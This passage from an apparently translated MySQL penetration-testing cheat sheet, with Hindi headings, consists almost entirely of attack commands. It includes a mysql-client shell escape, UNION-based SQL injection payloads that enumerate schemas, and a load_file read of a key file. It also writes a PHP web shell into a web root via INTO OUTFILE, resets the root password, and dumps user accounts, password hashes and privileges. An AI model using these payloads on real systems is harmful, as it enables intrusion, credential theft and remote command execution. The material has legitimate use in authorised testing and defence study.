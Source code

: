 ```bash

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```
### MySQL अनुमतियों की गणना
```sql
#Mysql
SHOW GRANTS [FOR user];
SHOW GRANTS;
SHOW GRANTS FOR 'root'@'localhost';
SHOW GRANTS FOR CURRENT_USER();

# Get users, permissions & hashes
SELECT * FROM mysql.user;

#From DB
select * from mysql.user where user='root';
## Get users with file_priv
select user,file_priv from mysql.user where file_priv='Y';
## Get users with Super_priv
select user,Super_priv from mysql.user where Super_priv='Y';

# List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION';
#@ Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION' AND routine_schema!='sys';
```
आप दस्तावेज़ों में प्रत्येक विशेषाधिकार का अर्थ देख सकते हैं: [https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html](https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html#priv_execute)
